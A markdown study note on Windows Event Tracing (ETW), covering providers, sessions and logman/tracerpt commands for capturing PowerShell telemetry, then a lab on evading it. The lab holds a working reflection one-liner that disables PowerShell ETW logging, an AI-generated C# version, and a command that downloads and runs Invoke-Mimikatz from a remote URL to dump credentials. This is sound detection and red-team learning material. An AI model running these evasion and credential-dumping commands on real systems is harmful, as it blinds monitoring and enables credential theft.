

# ETW - Event Tracing for Windows (Kernel mode)

> **TL;DR** ETW basically is a kernel level debug logging mechanism in Windows - it allows to gather advanced telemetry about functions being called. `Windows Event Logs` contain a subset of ETW events. Typically used by application developers to debug programs, but has found its way as a telemetry source for `EDR's`. 

Event Tracing for Windows (ETW) is a high speed tracing facility built into Windows. Using a buffering and logging mechanism implemented in the operating system kernel, ETW provides an infrastructure for events raised by both user mode (apps) and kernel mode components (drivers). ETW can be used for system and app diagnosis, troubleshooting, and performance monitoring.


https://learn.microsoft.com/en-us/windows-hardware/test/weg/instrumenting-your-code-with-etw

***Provider***
A provider is an instrumented component that generates events. A provider can be a user mode app, a kernel mode driver, or the Windows kernel itself. In addition to fixed event data (header), an event can carry user data.

An event is an event-based representation of data. The data can be used for in-depth analysis. An event can also be used to produce counters. Counters provide a sample-based view of data. They typically contain a small set of data to show current state, for example I/O bytes per second and interrupts per second.

A provider must register with ETW and send events by calling the ETW Logging APIs. Providers register a callback function for enable and disable notifications so that tracing can be enabled and disabled dynamically.

***Session***
The ETW session infrastructure works as an intermediate broker that relays the events from one or more providers to the consumer. A session is a kernel object that collects events into kernel buffer and sends them to a specified file or real-time consumer process. Multiple providers can be mapped to a single session, which allows users to collect data from multiple sources.

***Controller***
A controller starts, stops, or updates a trace session. A session is a unit for tracing. Providers are mapped (or enabled) to a specific session. A controller enables and disables providers so that they can start sending events to ETW. Controller functionalities can be invoked with tools provided by Microsoft or you can write your own app.

Logman.exe is an in-box controller app. Windows Performance Recorder (WPR) in the Windows Performance Toolkit is the recommended controller process.

***Consumer***
A consumer is an app that reads a logged trace file (ETL file) or captures events in an active trace session in real time, and processes events. Event Viewer and Resource Monitor are in-box ETW consumer apps.

Windows Performance Analyzer (WPA) in the Windows Performance Toolkit is the recommended consumer process.


To see which ETW providers are running on the system
```code
logman query -ets
```


But there are a lot more ETW providers available:


# Interesting ETW providers (USER-MODE/KERNEL-MODE)

> USER MODE providers log very detailed information, scriptblock logging. Processes in user land will use `ETWEventWrite` and ... to write to the user mode ETW Provider (`Microsoft-Windows-Powershell`), the windows eventlog service subscribes to this ETW provider and writes the events to the event-log. This can be tampered with.


> KERNEL MODE Providers have limitations on what they can log, they focus more on process creation, network connection, command line parameters (like SYSMON telemetry), but are harder to bypass.

> - Microsoft-Windows-Kernel-Process
> - Microsoft-Windows-DotNETRuntime
> - Microsoft-Windows-Threat-Intelligence
> - Microsoft-Windows-Defender
> - Microsoft-Windows-PowerShell
> 
So let's do a deep dive on what ETW can see in powershell by using logman to collect events to PowerShellTrace.etl.

You can search the available ETW providers like this:

``` powershell
logman  query providers | select-string "powershell"
```



And get detailed information like this:

```powershell
logman query providers Microsoft-Windows-PowerShell
```


We'll set up an ETW tracing session for the powershell provider like this:

```powershell
logman create trace PowerShellTrace -p Microsoft-Windows-PowerShell -o PowerShellTrace.etl -ets
logman -ets
```


This will create an event trace log (.etl file), which we can then convert to txt, csv or even evtx (windows event log format), any commands we run will be collected. In the same powershell console you just ran the create trace command, run some powershell commands:

```powershell
$pid
get-process
```

> ***IMPORTANT:*** After running our commands, stop the powershell event trace session and remove it (otherwise this keep collecting logs)

```powershell
logman stop PowerShellTrace -ets
Remove-EtwTraceSession -Name PowerShellTrace
```

We have now collected ETW Telemetry on powershell, we could ship this of to an Elastic stack, but for now let's just convert the trace file to an EVTX log that we can view with Windows Eventviewer.

```powershell
tracerpt PowerShellTrace.etl -o PowershellTrace.evtx -of evtx -lr
```


Now open Windows Eventviewer and load the saved log by going to `ACTION` and then `SAVED LOG`, browse to your PowerShellTrace.evtx file and click `OK`.:


We see a whole bunch of logs here, but let's see if we can find the commands we typed ($pid and get-process), by filtering for event ID 4104


Click on `Filter Current Log` in the right pane of eventviewer and enter `4104


And yes we can find both commands:


# MINI LAB - BYPASSING ETW in Powershell

run after amsi bypass:

```powershell
[Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)
```

then run

```powershell
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -DumpCreds;
```

No detections, AMSI is disabled, ETW is disabled -> Check eventviewer -> no powershell logs.

## Understanding the Components:

* **`[Reflection.Assembly]::LoadWithPartialName('System.Core')`:**
    * Loads the `System.Core.dll` assembly, containing core .NET classes, including `System.Diagnostics.Eventing.EventProvider`.
* **`.GetType('System.Diagnostics.Eventing.EventProvider')`:**
    * Retrieves the `System.Diagnostics.Eventing.EventProvider` type, responsible for emitting ETW events.
* **`.GetField('m_enabled','NonPublic,Instance')`:**
    * Retrieves the `m_enabled` field of the `EventProvider` class, a non-public instance field that determines whether ETW events are enabled.
* **`.SetValue(...)`:**
    * Sets the value of the `m_enabled` field.
* **`[Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')`:**
    * Retrieves the `System.Management.Automation.Tracing.PSEtwLogProvider` type, a PowerShell-specific wrapper around the .NET ETW functionality.
* **`.GetField('etwProvider','NonPublic,Static').GetValue($null)`:**
    * Retrieves the `etwProvider` field of the `PSEtwLogProvider` class, a non-public static field holding a reference to the `EventProvider` instance used by PowerShell.
* **`,0`:**
    * Sets the `m_enabled` field to `0` (false), disabling ETW events for the PowerShell `EventProvider`.

## How It Works (ETW Bypass):

* PowerShell uses the .NET `EventProvider` class to generate ETW events.
* The `PSEtwLogProvider` class in PowerShell acts as a bridge, holding the specific `EventProvider` instance used for PowerShell logging.
* The `m_enabled` field within the `EventProvider` class controls whether events are actually emitted.
* By using reflection, the code directly accesses and modifies this internal `m_enabled` field, setting it to `0`.
* This prevents the PowerShell `EventProvider` from generating ETW events, effectively bypassing ETW logging for that PowerShell process.


## Key Points:

* This method relies on internal .NET implementation details and might break if those details change in future .NET or PowerShell versions.
* It only affects the current PowerShell process.
* It is very effective at disabling the ETW logging from within powershell.
* This technique is commonly used by malicious actors.
* EDR solutions monitor for this type of activity.

CSHARP CODE (AI Generated) using the same ETW bypass (also works for .net binaries)

```CSharp
using System;
using System.Diagnostics.Eventing;
using System.Reflection;

public class EtwBypass
{
    public static void Main(string[] args)
    {
        try
        {
            // Get the EventProvider type
            Type eventProviderType = typeof(EventProvider);

            // Find the m_enabled field (non-public, instance)
            FieldInfo mEnabledField = eventProviderType.GetField("m_enabled", BindingFlags.NonPublic | BindingFlags.Instance);

            // Get the EventProvider instance used by the application (you'll need to adapt this part)
            // This is the tricky part, as you need to find the specific instance you want to patch.
            // In a real application, you would need to find the event provider instance that is used.
            // This example creates a new instance just for demonstration.
            EventProvider dummyProvider = new EventProvider(Guid.NewGuid());

            // Set the m_enabled field to 0 (false)
            if (mEnabledField != null)
            {
                mEnabledField.SetValue(dummyProvider, 0);
                Console.WriteLine("ETW bypassed.");
            }
            else
            {
                Console.WriteLine("m_enabled field not found.");
            }
        }
        catch (Exception ex)
        {
            Console.WriteLine($"Error: {ex.Message}");
        }
    }
}
```

## ETW Patching in .NET Binaries vs. PowerShell

**PowerShell Patch:**

* Uses reflection to modify the `PSEtwLogProvider` within the PowerShell process.
* Specifically targets how PowerShell logs events.
* Limited to the PowerShell process.
* Executed as a PowerShell command.
* Targets the PowerShell ETW logging mechanism.

**.NET Binary Patch (C# Example):**

* Compiles into a standalone .NET executable.
* Uses reflection to directly modify the `EventProvider` class within the running .NET binary.
* Can patch ETW logging for any .NET application that uses the standard .NET `EventProvider` class, if the correct `EventProvider` instance can be located.
* Can affect any .NET application.
* Executed as a compiled executable.
* Targets the `EventProvider` class, allowing it to target any .NET application using that class.

**Key Differences and Implications:**

* **Scope:**
    * PowerShell patch: Limited to the PowerShell process.
    * .NET binary patch: Can affect any .NET application, if the correct event provider can be located.
* **Execution Context:**
    * PowerShell patch: Executed as a PowerShell command.
    * .NET binary patch: Executed as a compiled executable.
* **Targeting:**
    * Powershell patch: Targets the powershell ETW logging.
    * .net binary patch: Targets the event provider class, so it can target any .net application that uses that class.

**In summary:** The C# code provides a more general-purpose ETW patching mechanism that can be used independently of PowerShell, while the PowerShell one-liner is specific to the PowerShell environment.

---

# TelemetrySourceror

Make sure secure boot is disabled in VM

```powershell
bcdedit.exe -set TESTSIGNING ON
```

Reboot the machine

Use PSEXEC to run as system and run Telemetry Sourceror

---

ETW USER LAND vs KERNEL MODE


